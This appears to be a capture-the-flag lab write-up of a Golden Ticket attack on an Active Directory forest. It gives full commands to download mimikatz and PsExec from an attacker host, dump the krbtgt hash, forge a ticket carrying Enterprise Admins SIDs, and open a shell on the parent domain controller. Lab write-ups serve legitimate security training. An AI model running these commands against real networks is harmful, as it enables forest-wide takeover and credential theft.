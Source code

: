 
[[Dumping secrets from CORPDC#Connect to RDP with the Administrator's credentials|Connect to CORP.DC with Administration credentials]]


To carry out this attack you will need:

- The KRBTGT password hash.
- The SID of the child Domain Controller (CORPDC).
- The user account we want to impersonate (Administrator).
- Dump SID of **“Enterprise Admin”** of root.thereserve.loc.
	To make your attack more advanced, you can also inject the SID for the `Enterprise Admins` group so that the user you impersonate would have high privileges. This will give you access to all the machines in the entire Forest if we are successful in doing so.

## Get mimikatz from the attacking machine

- On the attacking machine open a python http server in the directory where mimikatz.exe is.
	$ `sudo python3 -m http.server`

- On the victim machine run powershell and then the following code.
	PS C:\Users\Administrator> `wget http://10.50.110.16:8000/mimikatz.exe -o mimikatz.exe`
## Dump the krbtgt Hash


1. On the VICTIME_MACHINE poweshell run mimikatz.exe.
    
2. Once in mimikatz run:
	`privilege::debug` 
	 Ensure this outputs privilege "20" ok.
    
3. ﻿`lsadump::lsa /inject /name:krbtgt`
	This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket.
	
    ![[Golden Ticket Attack with mimikatz-20240608142406169.webp]]

4. Take note of what is outlined in red you'll need it to create the golden ticket.
	- S-1-5-21-170228521-1485475711-3199862024
	- krbtgt
	- 0c757a3445acb94a654554f3ac529ede


## Get the SID of the child Domain Controller (CORPDC)
On powershell run:

PS C:\Users\Administrator> `Get-ADComputer -Identity "CORPDC"`

![[Golden Ticket Attack with mimikatz-20240608151913994.webp]]


## Dump SID of **“Enterprise Admin”** of root.thereserve.loc

Run on powershell:
PS C:\Users\Administrator> `Get-ADGroup -Identity "Enterprise Admins" -Server rootdc.thereserve.loc`

![[Golden Ticket Attack with mimikatz-20240608152813146.webp]]


## Create the Golden ticket
And now, with all the required information, we can create our own Golden Ticket, which will be injected in the current session.
In **mimikatz** run:

 `kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt`

### Understanding the Command
- `kerberos::golden`: Indicates that you are creating a Golden Ticket.
- `/user:Administrator`: Specifies the user for whom the Golden Ticket is being created (in this case, the domain administrator).
- `/domain:corp.thereserve.loc`: Specifies the target domain.
- `/sid:S-1-5-21-170228521-1485475711-3199862024-1009`: Specifies the Security Identifier (SID) of the target domain.
- `/service:krbtgt`: Specifies the service account to use, which is typically `krbtgt` (Kerberos Ticket Granting Ticket).
- `/rc4:0c757a3445acb94a654554f3ac529ede`: Specifies the RC4 hash of the `krbtgt` account password.
- `/sids:S-1-5-21-1255581842-1300659601-3764024703-519`: Adds an additional SID to the ticket (useful for domain enumeration and access).
- `/ptt`: Indicates that the ticket should be injected into the current session (Pass-The-Ticket).

![[Golden Ticket Attack with mimikatz-20240608145025836.webp]]

## Use the Golden Ticket to access other machine

﻿In mimikatz run:﻿
﻿`misc::cmd`
﻿
﻿This will open a new command prompt with elevated privileges to all machines.
﻿
![[Golden Ticket Attack with mimikatz-20240608145512638.webp]]

## Test the access to rootdc.thereserve.loc

Run on the shell the following command:

C:\Users\Administrator>`dir \\rootdc.thereserve.loc\c$`

![[Golden Ticket Attack with mimikatz-20240608153405335.webp]]
Exit the shell.

## Get a shell on the ROOTDC

### Download pstools to the attacking machine
https://learn.microsoft.com/en-us/sysinternals/downloads/psexec

- Unzip the file.
- Start a python http server on you attacking machine in the directory where you unzipped pstools.
- Get psexec.exe from the powershell on the ROOTCD machine.
	PS C:\Users\Administrator> `wget http://10.50.110.16:8000/PsExec.exe -o psexec.exe`

### PowerShell session in ROOTDC

You can also issue a command prompt in the ROOTDC through PSEXEC.

PS C:\Users\Administrator> `.\psexec.exe \\rootdc.thereserve.loc cmd.exe`

![[Golden Ticket Attack with mimikatz-20240614145454849.webp]]

![[Golden Ticket Attack with mimikatz-20240609134614662.webp]]

![[Golden Ticket Attack with mimikatz-20240609134803204.webp]]
![[Golden Ticket Attack with mimikatz-20240609134915452.webp]]

## Authenticate the flags on e-citizen

> Flag 15, Foothold on Parent Domain
> Flag 16, Administrative access to Parent Domain

[[Flag Submission Process]]

**Next step:** [[Maintain persistence]]
